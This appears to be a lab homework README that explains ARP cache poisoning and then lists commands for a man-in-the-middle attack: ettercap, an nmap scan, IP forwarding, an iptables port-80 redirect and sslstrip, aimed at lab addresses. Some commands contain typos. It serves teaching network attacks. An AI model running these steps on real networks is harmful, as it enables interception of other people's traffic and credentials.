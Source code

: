 # ARP Cache Poisoning  

## What is the ARP Protocol  

Address Resolution Protocol (ARP) is a protocol that enables network communications to reach a specific device on the network. ARP translates Internet Protocol (IP) addresses to a Media Access Control (MAC) address, and vice versa.

## What is ARP Poisoning  

An ARP spoofing, also known as ARP poisoning, is a Man in the Middle (MitM) attack that allows attackers to intercept communication between network devices. The attack works as follows:

1. The attacker must have access to the network. They scan the network to determine the IP addresses of at least two devices⁠—let’s say these are a workstation and a router.  
2. The attacker uses a spoofing tool, such as Arpspoof or Driftnet, to send out forged ARP responses.  
3. The forged responses advertise that the correct MAC address for both IP addresses, belonging to the router and workstation, is the attacker’s MAC address. This fools both router and workstation to connect to the attacker’s machine, instead of to each other.  
4. The two devices update their ARP cache entries and from that point onwards, communicate with the attacker instead of directly with each other.  
5. The attacker is now secretly in the middle of all communications.  

## Steps to reproduce  
### [Setup(In Romanian)](https://github.com/iulianPeiu6/Labs.SI/blob/main/Homework2/Setup.pdf)  

### Run the Attack

1. Install ettercap-common
```console
sudo apt install ettercap-common
```  

3. Edit /etc/ettercap/etter.conf and uncoment the two lines after the line starting with "# if you use iptables:":
```console
sudo nano /etc/ettercap/etter.conf
```  

3.  Install nmap:
```console
sudo apt-get install nmap
```  

4. Run command:
```console
nmap -sP 192.1.11/24
```  

4. Edit /proc/sys/net/ipv4/ip_forward to change the content from "0" to "1"(if it is necesary):
```console
sudo nano /proc/sys/net/ipv4/ip_forward
```  

5. Run command:
```console
sudo iptables -t nat -A PREROUTING -i et0 -p tcp --dport 80 -j REDIRECT --to-port 8080
```  

6.  Install sslstrip:
```console
sudo apt-get install sslstrip
``` 

7. Run command:
```console
sslstrip -a -f -l 8080
``` 

On another terminal:

8. Run command & activate remote_browser plugin:
```console
sudo ettercap -i eth0 -TqM ARP:REMOTE /192.168.1.11// /192.168.1.13
``` 

Now, the attacker is secretly in the middle of all comunications from C2 to Router

### Note:  

Some browsers or web applications have protection against this attack. TO demonstrate the attack I have user [https://ubuntu.com/](https://ubuntu.com/).  
